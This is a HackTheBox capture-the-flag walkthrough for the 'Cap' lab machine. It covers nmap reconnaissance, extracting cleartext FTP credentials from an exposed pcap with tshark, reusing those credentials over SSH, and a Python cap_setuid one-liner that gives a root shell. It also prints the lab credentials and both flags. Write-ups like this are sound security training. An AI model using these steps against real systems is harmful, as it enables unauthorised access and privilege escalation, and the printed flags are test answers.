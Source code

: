 ```yaml
---
layout: default
title: "HackTheBox — Cap Walkthrough (10.10.10.245)"
---
```


# 🚩 HackTheBox — Cap Walkthrough

Welcome to my detailed walkthrough of the **Cap** machine on HackTheBox.  
This writeup takes you through **enumeration → exploitation → privilege escalation**, with commands, outputs, and commentary, so you don’t just follow along but *understand each step*.

---

## 🕵 Reconnaissance

The first step is always to see what the target is running.  
Using **Nmap** with scripts and version detection:

```bash
nmap -sC -sV -oN nmap_scan.txt 10.10.10.245
```

**Results:**
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2
80/tcp open  http    Gunicorn (http-server-header: gunicorn)
```

So we have:
- **FTP** (21)  
- **SSH** (22)  
- **HTTP** (80)  

The web service claims to be a **Security Dashboard**. Suspicious and interesting 😎

---

## 🌐 Web Enumeration

Browsing to `http://10.10.10.245/` shows a **Security Dashboard**.  
Digging deeper, I noticed a `/data/` directory containing a `.pcap` capture file.

👉 Whenever you see `.pcap` files exposed on a challenge, it’s basically free treasure. Let’s grab it:

```bash
wget http://10.10.10.245/data/1.pcap -O cap.pcap
```

---

## 📡 PCAP Analysis

I opened the file with `tshark` to look at FTP credentials:

```bash
tshark -r cap.pcap -Y "ftp.request.command == \"USER\" or ftp.request.command == \"PASS\""        -T fields -e ftp.request.command -e ftp.request.arg
```

**Output:**
```
USER nathan
PASS Buck3tH4TF0RM3!
```

🔥 Jackpot — cleartext FTP credentials!  

---

## 🔑 Getting Access

First, I verified the credentials via FTP:

```bash
ftp 10.10.10.245
# login: nathan / Buck3tH4TF0RM3!
```

That worked. Since SSH was also open, I tried the same credentials there:

```bash
ssh nathan@10.10.10.245
```

💡 Success — we’re in as **nathan**!

---

## 🧑💻 User Flag

Navigating to Nathan’s home directory:

```bash
cat user.txt
```

**Flag:**  
```
6e89061b7afba09dfa066e55e390c53d
```

---

## ⬆ Privilege Escalation

Time to go root. Running **linpeas** (or manual checks) revealed something spicy:

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

That means **Python3.8 has special Linux capabilities** which allow it to set the user ID. In simple terms: it can make itself root.

### Exploit with a one-liner:
```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Boom 💥 — we’re root.

---

## 👑 Root Flag

Now that we have root, let’s grab the final flag:

```bash
cat /root/root.txt
```

**Flag:**  
```
69d7ea1977e866c3e9ba8c5ff6abe8f0
```

---

## 📝 Lessons Learned

- `.pcap` files can leak **sensitive credentials** (FTP cleartext login in this case).  
- **Linux capabilities** can be as dangerous as `SUID` binaries if misconfigured.  
- Always check binaries with `getcap -r / 2>/dev/null`.

---

## 🎯 Final Thoughts

This was a neat box:
- Light recon → web → pcap analysis  
- Quick creds reuse for SSH  
- Clever privilege escalation via Python capabilities  

It’s a perfect beginner-friendly machine that teaches:
- Traffic capture analysis
- Credential harvesting
- Misconfigured binary exploitation

Happy hacking! ⚡
